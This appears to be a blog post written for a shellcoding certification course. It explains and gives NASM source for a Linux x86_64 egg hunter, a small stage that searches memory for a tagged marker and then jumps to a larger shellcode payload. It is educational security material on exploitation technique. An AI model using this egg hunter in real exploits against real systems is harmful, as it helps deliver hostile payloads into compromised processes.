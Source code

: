 ```yaml
---
layout: single
title: Egg Hunter - Linux x86_64
date: 2018-7-21
classes: wide
header:
  teaser: /assets/images/Egg_Hunter_Linux_x86_64/EggHunterDemo.gif
---
```


Introduction
------------
Egg hunter is a technique used to capture larger payloads in memory by tagging the start of the shellcode with an egg. In most cases, egg hunters are used when you don’t have enough space to host your desired shellcode. In this post we’ll create an egg hunter for Linux x86_64 and couple it with `execve()` shellcode for testing. Please refer to my SLAE32 series of posts for more details about egg hunting.

Shellcode
---------
In efforts to experiment with skape awesome piece of shellcode, we will build a slightly different version of the egg hunter that does the following:

* No hardcoded egg marker which will effectively eliminate the need for the second egg marker check.
* Use a readable memory region as starting address which allow the exclusion of memory access check routine.

As you can see this method is indeed unreliable compared to skape’s but hey it works!

```nasm
global _start
_start:

	inc rdx               ; pop valid address into rdi
	push rdx
	pop rdi
	push 0x30313232       ; push the marker-1 into the stack
	pop rax
	inc eax               ; marker is now 0x30313233 so its not hardcoded
EggHunter:
	inc rdi		          ; increment rdi by one byte
	cmp eax,[rdi]         ; check for egg match
	jnz EggHunter         ; if not found jump to EggHunter label
	inc rdi               ; increment rdi pointer by 4
	inc rdi
	inc rdi
	inc rdi
	jmp rdi               ; jump to the shellcode
```

And as always we follow with a demo.

![](/assets/images/Egg_Hunter_Linux_x86_64/EggHunterDemo.gif)

Closing Thoughts
----------------
On behalf of all the shellcoders out there, I would like to say thank you skape for producing such an elegant shellcode that will remain glorious for years to come. All of the above code are available on my [github](https://github.com/ihack4falafel/SLAE64/tree/master/Assignment%203). Feel free to contact me for questions via Twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certiﬁcation:

[http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)

Student ID: SLAE64–1579
